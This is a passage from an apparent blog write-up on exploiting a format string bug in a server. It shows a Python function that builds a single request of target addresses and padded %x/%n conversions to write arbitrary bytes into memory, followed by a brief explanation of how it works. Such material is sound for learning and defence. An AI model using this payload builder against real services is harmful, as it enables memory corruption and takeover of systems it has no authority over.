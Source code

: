 We could actually write data with one request per byte, but I chose to deliver my entire exploit in one request:

{% highlight python %}
#skrews the 3 bytes after the data being written
#bufferOffsetFromStackPointer is the difference of the buffer address and esp in four-byte-words.
def writeDataToAddress(bufferOffsetFromStackPointer, data, address, socket):
	
	# create a string of the addresses of all bytes being overwritten
	addresses = b""
	for i in range(address, address + len(data)):
		addresses += i.to_bytes(4, byteorder='little')
	
	# create conversions to actually overwrite the data
	currentLength = len(addresses)
	conversions = ""
	for i in range(0, len(data)):
		
		# compute the number of characters that need to be output
		requiredOutputLength = int.from_bytes(data[i:i+1], byteorder='little')
		requiredPadding = requiredOutputLength - (currentLength % 256)
		if requiredPadding < 0: requiredPadding += 256
		
		# make the server output as many bytes
		if (requiredPadding > 5):
			conversions += "%1$0" + str(requiredPadding) + "x"
			currentLength += requiredPadding
		elif requiredPadding > 0:
			conversions += "A" * requiredPadding
			currentLength += requiredPadding
		
		# make the server overwrite the data
		conversions += "%" + str(bufferOffsetFromStackPointer + i) + "$n"
	
	request = addresses + conversions.encode('ASCII')
	
	# EXECUTE!
	assert(request.find(b'\n') == -1)
	response = makeRequestBinary(request, socket)
{% endhighlight %}

This code generates a string starting with the addresses of all bytes being overwritten. It then generates an alternating sequence of *%x* and *%n* conversions. The *%x* conversions are padded to the right length so that the least significant byte of the value being stored to memory by the *%n* conversion is exactly the byte we want to write.
